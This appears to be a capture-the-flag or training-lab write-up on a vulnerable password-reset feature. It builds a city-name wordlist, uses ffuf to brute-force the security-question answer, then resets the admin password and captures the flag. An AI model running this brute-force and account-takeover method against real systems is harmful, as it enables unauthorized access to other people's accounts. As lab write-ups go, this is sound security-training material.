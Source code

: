 # Vulnerable Password Reset

### Which city is the admin user from?

This assessment has a web application with a password reset function that has a security question. In order to try to get the password, we'll try to use a wordlist containing city names.

**Step 1** - Get the wordlist:

* Download the full [CSV wordlist](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv)
* Reduce the wordlist to contain only city names
  *   ```bash
      cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
      ```



**Step 2** - Intercept the Security Question POST Request:

* Use Burp Suite to intercept the Request

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

**Step 3** - Brute-force the Security Question:

* With the POST Request information build the following ffuf command:
  *   {% code overflow="wrap" %}
      ```bash
      ffuf -w ./city_wordlist.txt -u http://SERVER_IP:SERVER_PORT/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=PHP_SESSION_ID" -d "security_response=FUZZ" -fr "Incorrect response."

      ```
      {% endcode %}



<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Reset the admin user's password on the target system to obtain the flag.

**Step 1** - Use the city discovered to answer the first question to reset the admin's password

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Change the password

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Login with the new credentials to get the flag!

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

